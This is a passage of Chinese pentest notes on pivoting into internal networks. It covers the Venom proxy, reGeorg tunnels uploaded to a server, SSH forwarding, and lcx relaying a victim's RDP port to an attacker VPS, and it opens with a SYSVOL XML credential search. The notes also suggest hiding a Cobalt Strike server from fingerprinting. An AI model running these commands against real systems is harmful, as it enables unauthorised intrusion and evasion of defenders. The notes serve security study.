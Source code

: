    ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```

本地主机主动连接

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/venom_2.png)

这时候查看我们的admin端

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/venom_3.png)

可以看到还有其他的功能，`setdes` 设定标识，`getdes` 获取标识 ，`goto` 选择一个节点进行操作，`listen` 开启一个监听（但是咋关掉我还没发现...）， `connect` 这个在多级代理的情况下挺好的，一条路打通了。还有节点之间都可以设置密码，这个比较重要
socks这个也好用，挂代理后windows下proxifier，linux下proxychains挂上就行，但是默认监听公网的...还没找到如何监听本地

#### **reGeorg**

通过http/https进行代理访问内网，具体的为上传一个服务器解析的tunnel，通过运行 `python reGeorgSocksProxy.py -p 1080 -u http://xx.xx.xx.xx/tunnel.jsp`

#### SSH

> SSH可以做转发，之前也整理过，不过没有发到博客里面。主要分为本地转发，远程转发，动态转发

本地转发：
`ssh -CfNg -L 本机端口1:本机地址:本机端口2 账号@IP地址`
将本机端口2转发到本机端口1
远程转发：
`ssh -CfNg -R 本地端口:目标地址:目标端口 账号@IP地址`
将内网服务器的地址转发到外网端口
动态转发：
`ssh -qTfnN -D 本地端口 账号@ip地址`
将任意端口转发至本地端口，常见的就是挂代理后用代理工具访问。例如我将cobaltstrike开启后限制外网IP访问，只能通过ssh动态转发打通隧道后访问，防止被爬取指纹，暴露自己。

#### **EarthWorm**

资料多，不粘贴复制了

#### goproxy

> Goproxy也是一款功能齐全的工具，支持多种协议穿透，它的功能可能超过日常转发所需，但是不报毒嘛...

#### lcx

| 方式 |                             命令                             |
| :--: | :----------------------------------------------------------: |
| 反向(外部vps) | `外部VPS：lcx.exe -listen 1111 2222`|
| 反向(受害者)|`受害者：lcx.exe -slave VPSip 1111 127.0.0.1 3389`|
|反向(使用方法)|访问本地2222端口即访问受害者3389端口|
| 正向 | `lcx.exe -tran 1111 2.2.2.2 8080`|
|正向(使用方法)|访问本地1111端口就是2.2.2.2的8080端口|

#### Mssql

> clr相关[项目地址](https://github.com/blackarrowsec/mssqlproxy)

想起看 Mssql 命令执行的方法时，里面就有CLR，首先为了表示尊敬，贴上[参考文章1](https://xz.aliyun.com/t/7534#toc-10)，[参考文章2](https://xz.aliyun.com/t/6682)

##### 什么是clr

CLR(common language runtime)即公共语言运行库，从SQL Server 2005(9.x) 开始，集成了CLR组件，意味着可以使用任何 .NET Framework语言来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数

   ```